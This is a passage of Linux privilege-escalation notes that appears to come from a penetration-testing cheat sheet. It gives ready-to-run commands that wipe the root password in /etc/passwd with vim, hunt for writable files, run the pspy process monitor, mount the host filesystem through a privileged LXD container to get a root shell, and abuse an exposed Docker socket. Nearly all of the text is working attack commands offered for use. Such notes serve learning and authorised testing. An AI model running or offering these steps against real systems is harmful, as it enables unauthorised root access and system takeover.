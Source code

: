 ```sh
/usr/bin/vim.basic /etc/passwd
```

- We also can make these changes in a non-interactive mode:

```sh
echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

 
### Service-based Privilege Escalation

- Writable files or directories:
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

- Download pspy : 
```sh
wget https://github.com/DominicBreuker/pspy
```

- Run pspy : 
```sh
#print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000
```

**LXD ** 
#LXD2

- Step 1: 
```sh
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```
- Step 2 : 
```sh
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

- Get a root shell : 
```sh
lxc start privesc
lxc exec privesc /bin/bash # or sh for the command 
```

**Docker** 
#Docker

- Create our own docker : 
```sh
wget https://master.dockerproject.org/linux/x86_64/docker
chmod +x docker
	docker -H unix:///app/docker.sock ps
``` 
